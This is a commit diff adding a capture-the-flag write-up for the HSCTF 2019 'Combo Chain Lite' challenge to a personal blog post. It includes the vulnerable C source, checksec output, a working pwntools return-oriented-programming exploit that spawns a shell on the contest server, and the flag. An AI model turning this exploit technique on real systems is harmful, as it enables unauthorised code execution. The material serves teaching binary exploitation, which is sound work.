

Before and after one commit to farazsth98/farazsth98.github.io, a Jekyll site: the page built from _posts/2019-06-23-hsctf-binary-exploitation-challenges.markdown, in a window 1280 px wide and 1400 px high, scrolled down 4659 px. Shown: the whole window at 89% size, without its empty margins (108-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; before the commit the page ends 5645 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Added combo-chain-lite

````diff
--- a/_posts/2019-06-23-hsctf-binary-exploitation-challenges.markdown
+++ b/_posts/2019-06-23-hsctf-binary-exploitation-challenges.markdown
@@ -249,7 +249,101 @@ Flag: `hsctf{fedex_dont_fail_me_now}`
 # Combo Chain Lite
 <a href="{{ page.url }}#title">Back to top ↑</a>
 
-To be added.
+### Challenge
+
+>Written by: Ptomerty
+>
+>Training wheels!
+>
+>Hint: What's a ROP?
+>
+>`nc pwn.hsctf.com 3131`
+
+The challenge archive contains the following files.
+```
+combo-chain-lite
+combo-chain-lite.c
+```
+
+### Solution
+
+We are given the combo-chain-lite.c source file.
+```c
+  1 #include <stdlib.h>
+  2 #include <string.h>
+  3 #include <stdio.h>
+  4
+  5 void vuln() {
+  6     char dest[8];
+  7     printf("Here's your free computer: %p\n", system);
+  8     printf("Dude you hear about that new game called /bin/sh");
+  9     printf("? Enter the right combo for some COMBO CARNAGE!: ");
+ 10     gets(dest);
+ 11 }
+ 12
+ 13 int main() {
+ 14     setbuf(stdout, NULL);
+ 15     gid_t gid = getegid();
+ 16     setresgid(gid,gid,gid);
+ 17     vuln();
+ 18     return 0;
+ 19 }
+```
+
+Very obvious buffer overflow in the vuln() function. The challenge also tells us we have to do a ROP chain to solve this.
+
+Run a quick checksec on the binary.
+```shell
+» checksec ./combo-chain-lite
+[*] '/root/Documents/hsctf-6/pwn/combo-chain-lite/bin/combo-chain-lite'
+    Arch:     amd64-64-little
+    RELRO:    Partial RELRO
+    Stack:    No canary found
+    NX:       NX enabled
+    PIE:      No PIE (0x400000)
+```
+
+This is a very easy ROP challenge. If you are unfamiliar with how ROP works, you can learn more about it from my writeups of the ROP Emporium challenges [here](https://syedfarazabrar.com/writeups/rop-emporium/2019/07/19/rop-emporium-challenges.html){:target="blank"}, specifically split64, although you may have to read the previous writeups if you are very new to binary exploitation.
+
+The exploit is shown below. system's address is given to us every run, and since the /bin/sh address is hardcoded in the binary, we can just get it out of the binary.
+```python
+  1 #!/usr/bin/env python
+  2
+  3 from pwn import *
+  4
+  5 context.log_level = 'critical'
+  6 elf = ELF("./combo-chain-lite")
+  7 sh = remote("pwn.hsctf.com" 3131)
+  8 a = sh.recvline()
+  9
+ 10 system_addr = p64(int(a.split(": ")[1], 16))
+ 11 binsh_gen = elf.search("/bin/sh") # Creates a generator object
+ 12 binsh_addr = p64(next(binsh_gen)) # Gets the next address of /bin/sh
+ 13 pop_rdi = p64(0x0000000000401273)
+ 14
+ 15 payload = "A"*16 # Overflow until RIP
+ 16 payload += pop_rdi # Jump to the pop rdi; ret; gadget
+ 17 payload += binsh_addr # Pop this into rdi
+ 18 payload += system_addr # Jump to system('/bin/sh')
+ 19
+ 20 sh.recvuntil(": ")
+ 21 sh.sendline(payload)
+ 22 sh.interactive()
+ 23
+ 24 sh.close()
+```
+
+We get a shell.
+```shell
+» python exploit.py
+$ ls
+combo-chain-lite  combo-chain-lite.c  exploit.py  flag
+$ cat flag
+hsctf{wheeeeeee_that_was_fun}
+$
+```
+
+Flag: `hsctf{wheeeeeee_that_was_fun}`
 
 # Combo Chain
 <a href="{{ page.url }}#title">Back to top ↑</a>
````
Also changed, not shown: other parts of _posts/2019-06-23-hsctf-binary-exploitation-challenges.markdown (+1 -1 lines).
